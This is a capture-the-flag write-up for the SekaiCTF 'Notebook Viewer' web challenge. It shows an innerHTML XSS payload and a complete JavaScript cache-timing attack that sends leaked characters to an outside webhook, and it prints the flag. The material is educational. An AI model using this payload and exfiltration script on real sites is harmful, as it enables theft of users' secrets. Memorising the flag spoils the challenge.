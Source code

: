 ```yaml
---
title: Notebook Viewer
summary: Miku created this notebook, can you extract its secrets?
tags: [SekaiCTF, Web, Timing Attack]
---
```


## Description

Miku created this notebook, can you extract its secrets?

Flag format: `SEKAI{[a-zA-Z0-9{}$@(<&!*#+_\-]+}`

Difficulty: 🔶🔶🔶🔷  
Author: Qyn

[Admin bot](https://ctf.sekai.team/adminbot/nbv)  
[Given files](/sekaictf/notebook-viewer/nbv-dist.7z)

## Solution

The challenge presents a single HTML page displaying a notebook.

![index.html](/sekaictf/notebook-viewer/index.png)

From examining the bot's source code, we know that we need to retrieve the secret note from another browser tab.

```adminbot.js
let page1 = await browser.newPage();
await page1.goto(`${SITE}/?note=${encodeURIComponent(FLAG)}`, {
    waitUntil: "networkidle2"
});

let page2 = await browser.newPage();
await page2.goto(url);
```

At first glance, this seems impossible because browser tabs typically can't interact with each other.
However, let's explore further.

The first thing I attempted was an XSS attack in the secret note with `?note=<img src=x onerror=alert('XSS') />`, but this didn't work.
I then inspected the page's JavaScript code to see if any sanitization was applied.
There was no sanitization, but the text was displayed in a peculiar way: each letter was rendered in its own iframe, preventing the XSS from executing.

```index.js
const uri = new URL(location.href);
const note = uri.searchParams.get('note') || 'my secret notes';

function srcFor(i, code) {
  return `https://nbv-${i}-${code}.chals.sekai.team/`;
}

for (let i = 0; i < note.length; i++) {
  const code = note.codePointAt(i);
  const frame = document.createElement('iframe');
  frame.scrolling = 'no';
  frame.src = srcFor(i, code);
  wrap.appendChild(frame);
}
```

Upon inspecting the iframe code, I discovered that it simply displayed the letter specified in its URL or the text passed through the query parameter.
This opened the door for an XSS vulnerability.

```frame.js
let uri = new URL(location.href);
const note = uri.searchParams.get("note");
const txt = document.querySelector('#note');

if (note)
    txt.innerHTML = note;
else
    txt.innerHTML = String.fromCharCode(uri.host.split('-')[2].split('.')[0]);
```

At this point, I had reviewed the provided files, understood how the application worked, found an XSS vulnerability, but still had no clear idea on how to retrieve the flag.

Then, I asked myself: why does the `srcFor` function include the character position when building the iframe URL? It isn't use by the iframe.
That's when it clicked: the combination of the character position and code was used to generate a unique URL for each letter, which potentially exposed the website to a resource timing attack.

### Timing Attack

Let's break down how the website operates:
- The flag is stored as a secret note.
- For each letter, the website sends a request to a URL containing the letter's position and code, and displays the letter in an iframe.
- Because the browser caches these requests, we can exploit this by making requests for all possible letters and observe which one is served fastest.
- The letter that is served the quickest will be the one already cached — meaning it’s part of the flag.

To automate this process, I wrote a script that attempts all characters for a given position and reports the most probable characters, ordered by fetch time, via a webhook.
While I could have attempted to guess multiple letters at once, I avoided this as it might have caused the flag request to become uncached due to the large volume of requests made by the script.

```js
const INDEX = 1; // Letter position
const CHARSET = shuffle(
  // Shuffle the charset to avoid giving an advantage to the first letters
  "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}@(<&!*#+_-",
);

const URL = (i, code) => `https://nbv-${i}-${code}.chals.sekai.team/`;
const WEBHOOK = "https://webhook.site/e5245448-2fa6-417d-9348-65d36f92d28e/";

function shuffle(str) {
  const array = str.split("");
  for (let i = array.length - 1; i > 0; i--) {
    const j = Math.floor(Math.random() * (i + 1));
    [array[i], array[j]] = [array[j], array[i]];
  }
  return array.join("");
}

function sort(dict) {
  let items = Object.keys(dict).map(function (key) {
    return [key, dict[key]];
  });

  items.sort(function (first, second) {
    return first[1] - second[1];
  });

  return items.map((key) => key[0]);
}

async function timingAttack() {
  const fetchPromises = []; // Array to store all fetch promises
  const charTimes = {}; // Object to store character-fetch times

  // PerformanceObserver to monitor network fetch timings
  let observer = new PerformanceObserver((list) => {
    list.getEntries().forEach((entry) => {
      const timeToFetch = entry.responseEnd - entry.fetchStart;
      if (timeToFetch > 0 && entry.name.includes("chals.sekai.team")) {
        const char = String.fromCharCode(
          entry.name.split("-")[2].split(".")[0],
        );
        charTimes[char] = timeToFetch;
      }
    });
  });

  observer.observe({ type: "resource", buffered: true });

  // Fetch the iframe URL for each character
  for (const c of CHARSET) {
    fetchPromises.push(fetch(URL(INDEX, c.charCodeAt(0)), { mode: "no-cors" }));
  }

  // Wait for all fetch requests to complete
  await Promise.all(fetchPromises);

  observer.disconnect();

  // Send the results (sorted character fetch times) to the webhook
  fetch(`${WEBHOOK}?${INDEX}=${encodeURIComponent(sort(charTimes).join(""))}`, {
    mode: "no-cors",
  });
}

timingAttack();
```

To execute the script, I used the XSS vulnerability I discovered earlier, embedding the link to the admin bot: `https://nbv-0-83.chals.sekai.team/?note=<img src=x onerror='[URL_ENCODED_SCRIPT]' />`.
Using this technique, I was able to retrieve the entire flag, one letter at a time, by sending my link to the admin bot 4-5 times per letter to determine the consistently fastest letter.

```
SEKAI{prOc3s5_IsoLAT10n_X5l34K5_fTW}
```

## References

* Practical CTF: [Timing Attacks](https://book.jorianwoltjer.com/cryptography/timing-attacks)
